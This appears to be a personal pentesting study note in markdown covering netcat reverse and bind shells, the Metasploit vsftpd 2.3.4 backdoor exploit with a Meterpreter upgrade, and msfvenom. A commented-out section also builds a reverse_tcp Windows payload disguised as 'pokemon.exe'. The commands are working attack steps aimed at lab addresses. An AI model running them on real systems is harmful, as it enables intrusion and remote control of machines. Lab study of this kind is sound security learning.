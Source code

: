 <!-- /notes/cyber/exploitation.md -->

<br>

`Last updated: Tue 29 Nov 2022 09:39 IST`

<br>

<h1 id="additional-notes">Additional notes</h1>

## nc

#### Reverse shell:

1. Attacker exploits victim's machine  
2. Attacker listens on port 4444 `nc -l -p 4444`  
3. Victim reverse TCP connection to attacker `nc 1.1.1.1 4444`

#### Bind shell:

1. Attacker exploits victim's machine  
2. Bind TCP connection to victim `nc 2.2.2.2 4444`  
3. Victim listens on port 4444 `nc -l -p 4444`

```bash
nc -l -p 4444 #listen for inbound connections, local port
nc 10.8.22.123 4444 #tcp connection to ip and port
```

#### 1. Set up listen on port and provide bash shell on target machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute bash shell
```

#### 2. Connect to target machine into provided shell session:

```bash
nc 192.168.1.175 7777 #connect to target
```

<br>
<h1 id="metasploit-framework">Metasploit Framework</h1>

## msfdb

```bash
msfdb init
msfdb start
msfdb stop
```

## msfconsole

```bash
help
search
use
```

#### 1. VSFTPD v2.3.4 Backdoor Command Execution

_`msf6 > `_

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
```

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
show options #show exploit options
show payloads #show exploit payloads
set RHOSTS 10.8.22.123 #set module options
set payload 0 #set payload options
exploit #or run
```
##### (Ctrl + Z) to send session to background.

#### 2. Upgrade shell to Meterpreter:

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
sessions #see active sessions
search shell_to #search for module
use post/multi/message/shell_to_meterpreter
```

#### 3. Shell to Meterpreter Upgrade

_`msf6 post(multi/manage/shell_to_meterpreter) >`_

```bash
show options
sessions
set SESSION 1
exploit
sessions
sessions -i 2 #enter meterpreter session
```

##### (Ctrl + Z) to send session to background.

<!--
```bash
use auxiliary/scanner/portscan/syn
```
-->

## msfvenom

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l formats
```

<!--
#### 1. Set up listener on attacker's machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```


#### 2. In `msfconsole`:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.172.128
set LPORT 7777
exploit
# set ExitOnSession false
# exploit -j
```

#### 3. Generate payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.172.128 LPORT=7777 -f exe > pokemon.exe
```

#### 4. Send to Windows 7 VM and run it
-->